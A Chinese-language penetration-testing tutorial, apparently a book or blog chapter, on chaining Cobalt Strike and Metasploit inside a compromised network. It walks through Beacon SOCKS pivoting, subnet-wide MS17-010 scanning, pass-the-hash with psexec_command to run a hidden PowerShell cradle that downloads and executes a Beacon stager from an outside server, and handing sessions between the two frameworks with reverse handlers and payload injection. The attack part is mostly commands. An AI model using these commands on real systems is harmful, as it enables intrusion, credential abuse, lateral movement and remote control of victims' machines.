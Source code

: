 ### 8.8 Cobaltstrike与Metasploit实战联动

**前言**

CobalStrike 与 Metasploit 均是渗透利器，各有所长。前者更适合做稳控平台，后者则更擅长内网各类探测搜集与漏洞利用。两者更需要灵活的联动，各自相互依托，从而提升渗透的效率。

**内置Socks功能**

通过Beacon内置的socks功能在VPS上开启代理端口，打通目标内网通道，之后将本地Metasploit直接带入目标内网，进行横向渗透。

当然，也可以把代理设置在其他的工具上，不限于Proxychains、Proxifier等。

首先，到已控目标机的Beacon下将socks代理开启。

    beacon > socks 1024 #端口根据VPS实际情况进行设置
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007225836910.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
点开菜单栏中的View > Proxy Pivots，复制代理连接到Metasploit中。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007225851510.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
本地启动Metasploit，挂上代理，就可以对目标内网进行各种探测搜集。如 探测目标内网中存在MS17\_010漏洞的主机，这也是内网拿主机权限利用方式之一。

    msf5 > setg Proxies socks4/5:ip:port #让msf所有模块的流量都通过此代理走。(setg全局设置)
    msf5 > setg ReverseAllowProxy true #允许反向代理，通过socks反弹shell，建立双向通道。(探测可以不设置此项)
    msf5 > use auxiliary/scanner/smb/smb_ms17_010
    msf5 > set rhosts 192.168.144.0/24
    msf5 > set threads 100 #内网渗透时线程不要太高！
    msf5 > run
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007225923129.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**利用MSF模块上线Beacon shell**

当通过其它方式拿到了目标内网中某台Windows机器的本地管理员明文密码或hash时，可利用Metasploit下auxiliary/admin/smb/psexec\_command模块，直接上线指定目标机器的Beacon shell。(前提目标机可出网)

先利用CobalStrike生成上线Beacon的powershell。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007225941785.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
本地启动Metasploit，挂上代理，设置psexec\_command模块参数

    msf5 > setg Proxies socks4/5:ip:port
    msf5 > use auxiliary/admin/smb/psexec_command
    msf5 > set rhosts 192.168.144.0/24
    msf5 > set threads 10
    msf5 > set smbuser administrator
    msf5 > set smbpass aad3b435b51404eeaad3b435b51404ee:579da618cfbfa85247acf1f800a280a4 #明文、密文均可
    msf5 > set command powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://149.28.xx.xx:80/a'))" #上线CS的powershell，目标机存在杀软需考虑
    msf5 > run
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007230011788.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
最终，只要密码一致、 能出网，且未被杀软阻止的均会成功上线。

**CS与MSF会话互传**

**CobaltStrike派生Metasploit**

当CobaltStrike获得了一个上线机器，想把这个目标传给Metasploit中的meterpreter，获得一个session进行控制。在Metasploit执行以下命令：

    msf5 > use exploit/multi/handler
    msf5 > set payload windows/meterpreter/reverse_tcp #不要用x64的payload
    msf5 > set lhost 10.11.42.99
    msf5 > set lport 5353
    msf5 > run -j
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007230044445.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
之后使用CobaltStrike创建一个windows/foreign/reverse\_tcp的Listener。其中IP为Metasploit的监听地址，端口为Metasploit所监听的端口-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020100723010350.png%23pic_center)-
然后选中计算机，右键->Spawn：选择MSF的监听器：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007230113611.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
这个时候可以看到，Metasploit上的监听已经上线，现在可以对meterpreter获得的session进行控制。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007230125523.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**Metasploit派生CobaltStrike**

现在已经获得了一个meterpreter的session，把session传给CobaltStrike。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007230144651.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
在CobaltStrike中创建一个监听者，和上一步类似，这里host需要修改为CobaltStrike客户端IP，创建好之后便监听8099端口，等待着被控机连接。

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007230156743.png%23pic_center)-
接下来，把meterpreter获得的session转交给CobaltStrike，在Metasploit执行以下命令：

    meterpreter > background 
    msf5 > use exploit/windows/local/payload_inject 
    msf5 > set payload windows/meterpreter/reverse_http
    msf5 > set lhost 192.168.144.174
    msf5 > set lport 8099
    msf5 > set DisablePayloadHandler true   
    msf5 > set session 1
    msf5 > run
    
        

解释一下这些参数。由于CobaltStrike的监听器我们使用的是：

    windows/beacon_http/reverse_http
    
        

所以我们的payload也要使用：

    payload windows/meterpreter/reverse_http
    
        

设置本地监听IP和端口：由于监听器是CobaltStrike的，所以要设置成CobaltStrike机器的IP与端口。

默认情况下，payload\_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，这里我们设置：

    set DisablePayloadHandler true
    
        

设置当前的session，执行run。

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007230241242.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
此时目标机便已成功从CobaltStrike上线。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007230255995.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

**总结**

关于CobalStrike与Metasploit 的联动利用方式远不止这些，每种方式在实战中都有对应的应用场景，更需要探索与总结。

* * *
